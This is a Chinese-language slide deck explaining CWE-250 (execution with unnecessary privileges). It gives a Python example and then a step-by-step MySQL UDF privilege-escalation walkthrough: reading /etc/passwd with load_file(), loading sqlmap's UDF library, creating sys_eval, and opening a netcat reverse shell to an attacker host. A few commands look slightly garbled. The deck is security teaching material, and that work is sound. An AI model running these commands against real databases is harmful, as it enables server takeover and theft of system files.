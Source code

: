 title: CWE-250
speaker: Brickgao
url: https://github.com/ksky521/nodePPT
transition: horizontal
files: /js/demo.js,/css/demo.css

[slide]

# CWE-250
## Execution with Unnecessary Privileges

[slide]

##简述
------

CWE-250，即带着不必要的权限执行。

软件进行操作的时候处于高权限，该权限高于软件需要的最小权限，这种情况可能导致软件的缺陷或扩大原来的缺陷。

[slide]

##一个简单例子
-------

```python
def makeNewUserDir(username):
    if invalidUsername(username):
        #avoid CWE-22 and CWE-78
        print('Usernames cannot contain invalid characters')
        return False
    try:
        raisePrivileges()
        os.mkdir('/home/' + username)
        lowerPrivileges()
    except OSError:
        print('Unable to create new user directory for user:' + username)
        return False
    return True
```

[slide]
## 
------

在这种情况中，其中`lowerPrivileges()`是降低权限，`raisePrivileges()`是提高权限。

如果在`os.mkdir()`语句中出现异常中断，程序就还会保持在高权限，这时就可能进行原来低权限中无法进行的事。

[slide]
##一个实例
--------------------

通过 Mysql 的 UDF 提权。

UDF 是 User Defined Function 的简称，即用户定义函数。

我们可以通过自定义的函数来获得 shell，进而获得系统的权限。

[slide]
## 
-------

在这里我们为了简单起见，假设我们已经有了 mysql 的用户名和密码。

mysql 里的函数不仅可以操作数据库，还可以操作外部的文件，例如我们可以通过 load_file() 函数来查看某个文件的内容：

```bash
     mysql > select load_file('/etc/passwd')\G
```

这样我们就相当于在本机上执行了`cat /etc/passwd`，当然 load_file() 函数可以被禁用。

[slide]
## 
-------

好的，我们现在开始利用 mysql 的 UDF 来提权。

先远程连接数据：

```bash
     root@bt:~# mysql 192.168.0.2 -u root -p123
```

获取插件库路径：

```bash
     mysql> show variables like "%plugin%";
```

![](/img/mysql01.png)

[slide]
## 
-----

利用 sqlmap 的 UDF 库文件加载函数并执行命令：

```bash
     mysql> select hex(load_file('/pentest/database/sqlmap/udf/mysql
            /linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
     mysql> select unhex(loadfile('/tmp/udf.txt')) into dumpfile
            '/usr/lib/mysql/plugin/mysql'
```

我们可以看下这个 UDF 库支持的函数：

![](/img/mysql02.png)

[slide]
## 
-----

加载函数并执行：

```bash
     mysql> create function sys_eval returns string soname "mysqludf.so";
```

查看一下我们的函数：

```bash
     mysql> select * from mysql.func;
```

![](/img/mysql03.png)

[slide]
## 
----

这是我们基本就可以用这个函数库来提权了，格式如下：

```bash
     mysql> sys_eval(<input function>);
```

我们可以通过 nc 反弹来获得 shell，比如在自己的主机下执行：

```bash
     root@bt:~# nc -vv -l -p 12345
```

在数据库中执行：

```bash
     mysql> sys_eval("nc <ip> 12345 -e /bin/sh");
```

这样就成功反弹出 shell 了。
